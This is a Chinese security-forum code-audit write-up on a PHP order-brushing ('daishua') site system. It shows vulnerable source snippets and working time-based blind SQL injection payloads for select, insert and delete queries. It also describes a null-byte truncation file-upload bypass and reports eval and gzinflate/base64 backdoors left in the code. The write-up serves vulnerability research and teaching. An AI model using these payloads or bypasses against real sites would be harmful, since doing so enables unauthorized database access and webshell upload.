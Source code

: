 0x00前言
------

众所周知，目前这种代刷网在网络上还是比较常见的，所以今天准备对这类系统进行一波审计。  
本文所使用的环境为***phpstudy的php5.2.17版本+apache***  
0x01正文
------------------------------------------------------------------------------------------------

- SQL注入

首先，我们先打开了法师的seay审计系统。由于sql注入漏洞是比较多见的，所以我往往会优先审计它。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-997ff8ec934fc84a786bf4584c92ede0b3a1f725.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-997ff8ec934fc84a786bf4584c92ede0b3a1f725.png)

但是，我发现这里显示的select类型注入描述过少。所以这次我打算先利用敏感函数追踪的方法来进行挖掘  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2366da6e0c116bede308afea31706c03b850199b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2366da6e0c116bede308afea31706c03b850199b.png)  
哦吼，这里很有可能存在sql注入漏洞。我们点进去看看。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c5c92df2272ed5d4beaf56d7c595fe910c23b3e4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c5c92df2272ed5d4beaf56d7c595fe910c23b3e4.png)

```php
elseif ($my=='edit_submit') {
    $cid = $_GET['cid'];
    $rows = $DB->get_row('select * from shua_class where cid=\'' . $cid . '\' limit 1');
    if (!$rows) {
        exit('<script language=\'javascript\'>alert(\'当前记录不存在！\');history.go(-1);</script>');
    }
```

这洞不就来了么。$cid变量未经过滤便直接传递到了sql语句中。由于$DB-&gt;get\_row是返回存在的行数。所以说这里我们只能用盲注来进行判断。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b6a0f94a3840fa97291a12473dc5eebc9030313f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b6a0f94a3840fa97291a12473dc5eebc9030313f.png)

payload为

```php
/admin/classlist.php?my=edit_submit&&cid=1' and sleep(10)--+
```

然后继续看这个文件  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f0da1fc7301a0f74d30b59c64d11965e5ba8c89d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f0da1fc7301a0f74d30b59c64d11965e5ba8c89d.png)

```php
if ($my=='add_submit') {
    $name = $_POST['name'];
    if ($name==NULL) {
        exit('<script language=\'javascript\'>alert(\'保存错误,请确保每项都不为空!\');history.go(-1);</script>');
    } else {
        $sql = 'insert into `shua_class` (`name`,`active`) values (\'' . $name . '\',\'1\')';
```

当&amp;name不为空的时候执行insert类型的sql注入。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-eb5266ecc96662100a969029a26e1c3626db732f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-eb5266ecc96662100a969029a26e1c3626db732f.png)

就像上图即可  
payload：`name=yanxia'+or+sleep(10),'1')%23`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8a6719a98a37c0f4f4b743b50c541a96d3bc9f21.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8a6719a98a37c0f4f4b743b50c541a96d3bc9f21.png)

okey，接着往下翻。我们会发现个delete类型的sql注入

```php
elseif ($my=='delete') {
    $cid = $_GET['cid'];
    $sql = 'DELETE FROM shua_class WHERE cid=\'' . $cid . '\'';
    if ($DB->query($sql)) {
        exit('<script language=\'javascript\'>alert(\'删除成功！\');window.location.href=\'classlist.php\';</script>');
    } else {
        exit('<script language=\'javascript\'>alert(\'删除失败！' . $DB->error() . '\');history.go(-1);</script>');
    }
```

payload如下：

```php
admin/classlist.php?my=delete&cid=1' and sleep(10)--+
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a0e2006c6f51c9a38fa1ffe6ee5379811f56a6da.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a0e2006c6f51c9a38fa1ffe6ee5379811f56a6da.png)

（其他地方也存在类似的sql注入我就不一一写出来了）

- 文件上传

这里，我们通过先定位一下文件上传点的方式来进行审计。  
打开地址admin/shopedit.php?my=add，发现有个文件上传的地方  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8cf6429455019edf3145a2cc8a55604209ea99f9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8cf6429455019edf3145a2cc8a55604209ea99f9.png)  
![30983-xgi681qdjib.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3a4955858b495543de3375fe17703c293226a562.png)

我们打开源码看一下逻辑  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f9ca08b352609e5153255c14996ed9a037dfb8d2.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f9ca08b352609e5153255c14996ed9a037dfb8d2.png)

```php
case 'uploadimg':
    if($_POST['do']=='upload'){
        $type = $_POST['type'];
        $filename = $type.'_'.md5_file($_FILES['file']['tmp_name']).'.png';
        $fileurl = 'assets/img/Product/'.$filename;
        if(copy($_FILES['file']['tmp_name'], ROOT.'assets/img/Product/'.$filename)){
            exit('{"code":0,"msg":"succ","url":"'.$fileurl.'"}');
        }else{
            exit('{"code":-1,"msg":"上传失败，请确保有本地写入权限"}');
        }
    }
    exit('{"code":-1,"msg":"null"}');
break;
```

我们可以发现md5\_file($\_FILES\['file'\]\['tmp\_name'\])这里运用了md5加密。所以说我们不能从file和tmp\_name处下手。而$type变量恰好是我们可控的。所以说我们可以才取00截断来达到文件上传的效果(有些人可能不懂什么是00截断。我把具体操作放下图了)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-90edad9c210877d5733cd859b53ddeb7f0da2dda.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-90edad9c210877d5733cd859b53ddeb7f0da2dda.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d0738071ee34ffbb965fbff97afbbacf8e380cfa.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d0738071ee34ffbb965fbff97afbbacf8e380cfa.png)  
这里虽然显示是.jpg结尾但是其实已经被截断了。我们打开目录看看  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2e5ee4462072daba0cc01a573099c9fe64cffc02.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2e5ee4462072daba0cc01a573099c9fe64cffc02.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a33b3780121aa5cb8e4e8498ab8b83fbba290a70.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a33b3780121aa5cb8e4e8498ab8b83fbba290a70.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-935ee59456da7a414d7f091e594b5c5177dbb8fd.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-935ee59456da7a414d7f091e594b5c5177dbb8fd.png)

- 后门

在我利用自动审计功能的时候看到了它。一个404页面竟然还会存在eval。所以说极有可能是作者留下的后门。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3200a9a0f7ddf3379aba031e6487837037a07636.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3200a9a0f7ddf3379aba031e6487837037a07636.png)  
点开看看。确实如此  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-cfe602b47f5bd042d6afbeea27bbfaa7a1f7b7a4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-cfe602b47f5bd042d6afbeea27bbfaa7a1f7b7a4.png)

接着我想继续看看有木有代码执行,常见敏感函数有**eval()，assert(),preg\_replace(),call\_user\_func(),call\_user\_func\_arry(),arry\_map()**等等。  
精彩的一幕来了。当我搜索preg\_replace的时候发现了下图  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1bad0d616c03216225f45a84cb4727ed06bc7319.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1bad0d616c03216225f45a84cb4727ed06bc7319.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-248bce38c18fb4fb5c007c7856db3e28515912a1.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-248bce38c18fb4fb5c007c7856db3e28515912a1.png)  
哦吼，这不妥妥的是个后门吗  
并且我发现是gzinflate(base64\_decode())的加密。我们输出一下他的源码看看  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-bec3732c9f3beb74d2db85d1e361b8a31f25bbce.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-bec3732c9f3beb74d2db85d1e361b8a31f25bbce.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-cb705075fa6b4be4fb548c8848d0ac8f3aba9d89.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-cb705075fa6b4be4fb548c8848d0ac8f3aba9d89.png)  
0x02结尾
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

本文到此结束。  
代码审计还是蛮有意思的。光看不自己动手的话很难进步！大家与我一起加油鸭  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4fa1556bf21489cee93165c556182d23a16ea3d1.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4fa1556bf21489cee93165c556182d23a16ea3d1.jpg)